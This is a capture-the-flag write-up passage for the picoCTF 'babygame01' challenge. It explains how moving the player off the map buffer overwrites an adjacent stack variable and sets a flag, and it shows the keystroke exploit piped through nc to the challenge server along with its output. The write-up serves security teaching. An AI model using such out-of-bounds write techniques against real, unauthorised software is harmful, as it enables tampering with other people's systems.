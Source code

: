 ### Write an exploit

So how can we change the local variable `local_aa4` to a non-zero value?  
Lets look at the allocation of variables again

```c
<---snip--->
  int iVar1;
  undefined4 uVar2;
  int in_GS_OFFSET;
  int local_aac;
  int local_aa8;
  char local_aa4;
  undefined local_aa0 [2700];
  int local_14;
  undefined *local_10;
<---snip--->
```

The lower right corner of the map is position `29 89` so the variable `local_aa0` of size 2700 bytes ought to be the map.
And the local variable we want to change is allocated just before that.

What if you can navigate outside of the map and use our '@' sign to change the `local_aa4` variable?

Looking at the starting position on the map we see that we need to move up 4 times (i.e. 4 * 'w') and at least 5 times to the left until the helpful `Player has flag` indicator is changed.

Trying this out we see that we need to move 8 times to the left until the flag indicator is changed.
```
End tile position: 29 89
Player has flag: 64
```

To summarize, our "exploit" consists of
 * 4 * 'w' for 4 upwards moves
 * 8 * 'a' for 8 moves to the left and then
 * 'p' to move to the X

### Get the flag

Finally, lets send our tiny exploit to the server to get the flag
```
┌──(kali㉿kali)-[/picoCTF/picoCTF_2023/Binary_Exploitation/babygame01]
└─$ python -c "print('w'*4 + 'a'*8 + 'p')" | nc saturn.picoctf.net 60968

<--- snip --->

Player position: 29 89
Player has flag: 46
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
```